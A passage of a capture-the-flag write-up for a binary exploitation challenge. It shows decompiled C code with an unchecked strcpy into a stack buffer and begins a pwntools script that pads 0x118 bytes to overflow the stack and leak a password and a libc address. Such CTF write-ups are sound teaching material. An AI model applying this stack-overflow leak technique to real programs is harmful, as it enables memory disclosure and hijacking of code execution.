 ```c
  
  local_98 = 0;
  local_90 = 0;
  local_88 = 0;
  local_80 = 0;
  local_78 = 0;
  local_70 = 0;
  local_68 = 0;
  local_60 = 0;
  local_58 = 0;
  local_50 = 0;
  local_48 = 0;
  local_40 = 0;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  puts("\n\n=============================================================================\n");
  printf("You enter the room of fates and see the tapestry of reality laid out before you.");
  puts("\nThe voice in your head returns:");
  puts(
      "\n\'Are you willing to force your prophecy onto the past? To corrupt this reality to find wha t you seek?\'"
      );
  printf("\n1) Yes\n2) No\n\n> ");
  fflush(stdin);
  fgets(local_14,8,stdin);
  local_c = atoi(local_14);
  if (local_c == 1) {
    strcpy((char *)&local_98,param_1);
  }
  else {
    puts("\nYou leave the room of the fates, this reality intact.");
  }
  return;
}


```

Lastly here there is the function that let us to get the real overflolw in order to change the code execution.
That's the code given except the win function or **theVoid** which i forgot...

By the way let's start by leaking the password and the libc with the overflow

![immagine](https://github.com/Wanasgheo/Writeups/assets/111740362/be23399b-cdc7-4899-9bfd-309d4230143b)

As you can see from the image above we just need to write a pad of **0x110** bytes and then write the address that we want to leak, as i did in the code below

```python
    def Leak(to_leak):
	    payload = flat(
	        b"a" * 0x118,
	        to_leak,
	    )
	
	    roomOfLoom(payload)
	    print_()
	
	    p.recvuntil(b"ancient : \n")
	    p.recvline()
	
	    leak = p.recvline()
```